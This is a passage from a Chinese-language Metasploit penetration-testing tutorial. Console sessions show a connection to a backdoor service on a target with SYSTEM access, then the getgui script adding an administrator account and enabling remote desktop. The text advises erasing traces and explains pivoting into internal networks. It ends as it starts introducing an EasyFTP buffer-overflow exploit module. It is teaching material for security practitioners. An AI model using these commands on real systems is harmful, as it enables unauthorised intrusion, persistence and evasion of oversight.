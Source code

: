 因此，我们最终在我们的目标上启动了后门服务。我们将关闭当前的 meterpreter 会话，并使用`windows/metsvc_bind_tcp`有效载荷的`multi/handler`与我们的后门服务进行交互：

```
 meterpreter> exit
 [*] Meterpreter session 1 closed. Reason: User exit msf exploit(ms08_067_netapi) > back msf> use exploit/multi/handler msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp PAYLOAD => windows/metsvc_bind_tcp msf exploit(handler) > set LPORT 31337 LPORT => 31337 msf exploit(handler) > set RHOST 192.168.0.7 RHOST => 192.168.0.7 msf exploit(handler) > exploit [*] Starting the payload handler... [*] Started bind handler [*] Meterpreter session 2 opened (192.168.0.3:37251 -> 192.168.0.7:31337) at Tue Nov 16 20:02:05 +0000 2010 meterpreter>getuid Server username: NT AUTHORITYSYSTEM
```

让我们使用另一个有用的 meterpreter 脚本`getgui`，为我们的目标启用远程桌面访问。以下练习将在目标上创建一个新用户帐户，并在以前禁用远程桌面服务的情况下启用远程桌面服务：

```
 meterpreter> run getgui -u btuser -p btpass
    [*] Windows Remote Desktop Configuration Meterpreter Script by  Darkoperator
    [*] Carlos Perez carlos_perez@darkoperator.com
    [*] Language set by user to: 'en_EN'
    [*] Setting user account for logon
    [*]     Adding User: btuser with Password: btpass
    [*]     Adding User: btuser to local group 'Remote Desktop Users'
    [*]     Adding User: btuser to local group 'Administrators'
    [*] You can now login with the created user
    [*] For cleanup use command: run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20101116.3447.rc 
```

现在，我们可以使用`rdesktop`程序登录到我们的目标系统，方法是在另一个终端上输入以下命令：

```
 # rdesktop 192.168.0.7:3389 
```

请注意，如果您已经拥有目标机器上任何现有用户的破解密码，您可以简单地执行`run getgui -e`命令来启用远程桌面服务，而不是添加新用户。此外，请不要忘记通过执行上一个输出末尾引用的`getgui/clean_up`脚本来清理系统中的痕迹。

我应该如何通过深入访问无法从外部访问的目标网络来扩展我的攻击范围？Metasploit 提供了使用`route add targetSubnettargetSubnetMaskSessionId`命令查看和添加到目标网络的新路由的能力（例如，route add `10.2.4.0 255.255.255.0 1`）。这里，`SessionId`参数指向现有的 meterpreter 会话（网关），而`targetsubnet`参数是另一个网络地址（或双重家庭以太网网络地址），位于我们受损目标之外。一旦您设置 Metasploit 通过受损主机会话路由所有流量，我们就准备好进一步渗透通常无法从我们这边路由的网络。这通常被称为枢纽或立足点。

# 编写利用模块

开发利用是 Metasploit 框架中最有趣的方面之一。在本节中，我们将简要讨论围绕利用开发的核心问题，并通过从现有框架数据库中获取的实时示例解释其关键骨架。然而，在尝试编写自己的利用模块之前，熟练掌握 Ruby 编程语言非常重要。另一方面，中级的逆向工程技能和对漏洞发现工具（例如模糊测试工具和调试器）的实际理解为利用构建提供了一张开放的地图。本节仅作为该主题的介绍，而不是完整的指南。

对于我们的示例，我们选择了漏洞（EasyFTP Server <= 1.7.0.11 MKD Command Stack Buffer Overflow），它将提供对 Easy FTP Server 应用程序中缓冲区溢出漏洞的基本视图。您可以将此模块移植到其他 FTP 服务器应用程序中发现的类似漏洞，并有效利用您的时间。漏洞代码位于`/usr/share/metasploit-framework/modules/exploits/windows/ftp/easyftp_mkd_fixret.rb`：

```
 ##
    # $Id: easyftp_mkd_fixret.rb 9935 2010-07-27 02:25:15Z jduck $
    ## 
```
